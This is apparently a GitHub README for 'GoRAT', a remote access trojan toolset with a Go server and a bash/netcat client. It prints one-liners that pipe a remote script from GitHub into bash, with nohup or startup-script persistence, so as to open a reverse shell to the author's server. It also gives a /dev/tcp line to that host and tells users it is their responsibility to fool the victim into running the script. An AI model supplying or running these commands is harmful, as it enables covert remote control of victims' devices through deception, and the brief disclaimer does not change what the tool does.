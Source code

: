 # GoRAT
This is a [remote access trojan](https://www.fortinet.com/resources/cyberglossary/remote-access-trojan) toolset.

* server is written in Go
* client is utilizing the networking tool `netcat` which is distributed on most systems. (still under development)

If a victim unintentionally executed the command below, I will have full control over his/her device via a reverse shell.

```sh
# when manually run just once
nohup bash <(curl https://raw.githubusercontent.com/yanxurui/gorat/main/clickme.sh) &
# or when added to the startup script
bash <(curl https://raw.githubusercontent.com/yanxurui/gorat/main/clickme.sh) > /dev/null 2>&1 &
```

Of course, I am using this tool to manage my remote devices, such as router at home, behind NAT.
Please don't use it for any form of exploitation.

## Server
The server listens to a single port (8090 by default) but it can accept more than one remote or local connections.
Remote connections are initiated from the victims' computers by executing `clickme.sh` which will start a reverse shell.
Local connection can list all remote connections and select one of them to run any command in the reverse shell.

A echo remote peer can be setup by `tee >& /dev/tcp/yanxurui.cc/8090 <&1`

## Client
As long as the client has internet access and has bash installed, it can be exploited. It's your responsibility to fool the victim into running the shell script.


## Development
### Test
```sh
go test
go test -v
# run a specific test
go test -testify.m TestLocalDisconnected -v
```

server log is also redirected to file `command.log`.

